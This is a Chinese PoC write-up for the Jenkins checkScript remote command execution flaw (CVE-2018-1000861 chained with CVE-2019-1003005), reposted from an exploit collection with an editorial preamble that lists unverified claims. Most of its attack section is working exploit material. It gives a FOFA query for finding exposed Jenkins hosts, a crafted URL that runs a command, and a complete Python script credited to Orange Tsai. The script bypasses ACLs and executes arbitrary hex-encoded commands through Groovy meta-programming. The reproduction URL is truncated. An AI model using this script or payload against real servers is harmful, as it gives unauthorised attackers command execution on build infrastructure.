



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;2.138及build time&lt;2019-01-28不构成准确core/plugin分支矩阵；需对应Script Security插件与匿名读取或ACL绕过

代码与实验材料：Orange Tsai Python2完整脚本；直接URL片段缺结尾大括号/编码；HTTP200被当成功不可靠

来源证据范围：脚本保留作者署名，未给其原仓库/官方公告

- **事实待核（1）**：编号与受影响版本把两个缺陷混为一体；依据：check函数先判1000861 ACL，后查1003005 checkScript，但只用Jenkins core版本和build日期定全部链。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：PoC判断和运行环境缺陷；依据：200就写成功、405就判修复，不验证命令产物；Python2 print/encode hex依赖未标，禁TLS验证/无timeout。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：根因概括过宽；依据：public方法路由不等于任意public方法均能调；缺插件固定版本/最小权限及官方出处。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Jenkins checkScript 远程命令执行漏洞 CVE-2018-1000861

## 漏洞描述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

## 漏洞影响

```
Jenkins version < 2.138
Jenkins build time < 2019-01-28
```

## 网络测绘

```
app="Jenkins"
```

## 漏洞复现

登录页面



使用 EXP 执行命令

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
```



成功创建`/tmp/success`



## 漏洞POC

```python
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
# 

import sys
import requests
from enum import Enum

# remove bad SSL warnings
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass


endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

class mode(Enum):
    ACL_PATCHED = 0
    NOT_JENKINS = 1
    READ_ENABLE = 2
    READ_BYPASS = 3
    ENTRY_NOTFOUND = 999

def usage():
    print '''
  Usage:
    python exp.py <url> <cmd>
    '''

def _log(msg, fail=False):
    nb = '[*]'
    if fail:
        nb = '[-]'
    print '%s %s' % (nb, msg)

def _get(url, params=None):
    r = requests.get(url, verify=False, params=params)
    return r.status_code, r.content

def _add_bypass(url):
    return url + 'securityRealm/user/admin/'

def check(url):
    flag, accessible = mode.ACL_PATCHED, False

    # check ANONYMOUS_READ
    status, content = _get(url)
    if status == 200 and 'adjuncts' in content:
        flag, accessible = mode.READ_ENABLE, True
        _log('ANONYMOUS_READ enable!')
    elif status == 403:
        _log('ANONYMOUS_READ disable!')

        # check ACL bypass, CVE-2018-1000861
        status, content = _get(_add_bypass(url))
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_BYPASS, True
    else:
        flag = mode.NOT_JENKINS

    # check entry point, CVE-2019-1003005
    if accessible:
        if flag is mode.READ_BYPASS:
            url = _add_bypass(url)
        status, content = _get(url + endpoint)

        if status == 404:
            flag = mode.ENTRY_NOTFOUND

    return flag

def exploit(url, cmd):
    payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
    params = {
        'sandbox': True, 
        'value': payload
    }

    status, content = _get(url + endpoint, params)
    if status == 200:
        _log('Exploit success!(it should be :P)')
    elif status == 405:
        _log('It seems Jenkins has patched the RCE gadget :(')
    else:
        _log('Exploit fail with HTTP status [%d]' % status, fail=True)
        if 'stack trace' in content:
            for _ in content.splitlines():
                if _.startswith('Caused:'):
                    _log(_, fail=True)

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
        exit()

    url = sys.argv[1].rstrip('/') + '/'
    cmd = sys.argv[2]

    flag = check(url)
    if flag is mode.ACL_PATCHED:
        _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
    elif flag is mode.NOT_JENKINS:
        _log('Is this Jenkins?', fail=True)
    elif flag is mode.READ_ENABLE:
        exploit(url, cmd)
    elif flag is mode.READ_BYPASS:
        _log('Bypass with CVE-2018-1000861!')
        exploit(_add_bypass(url), cmd)
    else:
        _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
```


---

> 来源：Threekiii/Awesome-POC
